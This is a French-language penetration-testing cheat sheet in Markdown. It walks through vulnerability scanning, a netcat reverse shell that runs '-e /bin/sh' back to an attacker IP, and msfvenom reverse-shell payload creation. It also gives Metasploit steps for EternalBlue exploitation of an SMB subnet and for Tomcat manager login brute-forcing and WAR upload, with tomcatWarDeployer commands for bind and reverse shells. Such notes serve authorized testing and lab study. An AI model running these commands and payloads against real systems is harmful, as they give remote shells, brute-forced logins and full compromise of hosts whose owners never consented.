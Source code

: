 ```toc

```

# Scan de vuln
Utilisation de Greenbone (anciennement OpenVas) pour faire un scan sur les vulnérabilités connues.


# Exploitation
Recherche manuelle d'exploit disponibles sur internet, notamment dans la base *exploit database*.

Création d'un reverse shell :
1. Ecoute sur le pc de l'attaquant : `nc -nlvp 4444`
2. Connexion depuis la machine compromise : `nc <ip_attaquant> <por> -e /bin/sh`


## Metasploit
### Msfconsole
```bash
msfconsole
> search tomcat
> use auxiliary/scanner/http/tomcat_mgr_login
> show info
> set RHOST 172.30.12.51
> set RPORT 8080
> set ...
> run
```

### Msfvenom
Permet de créer des payloads
```bash
# List available payloads
msfvenom -l payloads

# List options of a payload
msfvenom --list-options -p windows/x64/shell/bind_tcp

# Create payload
msfvenom --payload linux/x86/shell_reverse_tcp LHOST=172.30.1.5 LPORT=4444 W > runme.war
```


# Exemples
## Eternal Blue
```bash
msfconsole
# FIND VULNERABLE HOSTS
> use auxiliary/scanner/smb/smb_ms17_010
> show options
> set RHOSTS 172.30.12.0/24
> set THREADS 5
> set SMBDomain
> set ...
> run

# EXPLOIT
> use exploit/windows/smb/ms17_010_eternalblue
> set ...
> set LHOST <my_ip>
> run

# IF IT WORKS
$ sysinfo
$ getuid


# ANOTHER EXPLOIT
> use exploit/windows/smb/ms17_010_psexec
> set payload windows/x64/meterpreter/reverse_tcp
```


## Tomcat
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat

```bash
msfconsole
> search tomcat

# Brute tomcat manager login
> use auxiliary/scanner/http/tomcat_mgr_login
> show info
> set RHOST 172.30.12.51
> set RPORT 8080
> set ...
> run

# Upload a file to execute
> use exploit/multi/http/tomcat_mgr_upload
> set ...
> show payloads
> set PAYLOAD <payload_nb>
```

Le fichier upload peut permettre d'avoir un bind shell ou un reverse shell. On peut l'upload à la main depuis la console de tomcat manager aussi.

Pour créer un payload "manuellement" : 
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=172.30.1.3 LPORT=4444 W > runme.war
```

Utilisation d'un script python pour générer le payload, le déployer et connecter le shell (c'est à peu près ce que fait metasploit aussi) :
https://github.com/mgeeky/tomcatWarDeployer
```bash
python3 tomcatWarDeployer.py --help

# For bind shell
python3 tomcatWarDeployer.py -U <user> -P <password> <target_ip>:<tomcat_port>
# For reverse shell
python3 tomcatWarDeployer.py -U <user> -P <password> -H <kaliip> -p <kali_listening_port> <target_ip>:<tomcat_port>
```

Si le bind et le reverse shell ne fonctionne pas, on peut toujours essayer de créer un webshell : https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#manual-method-web-shell

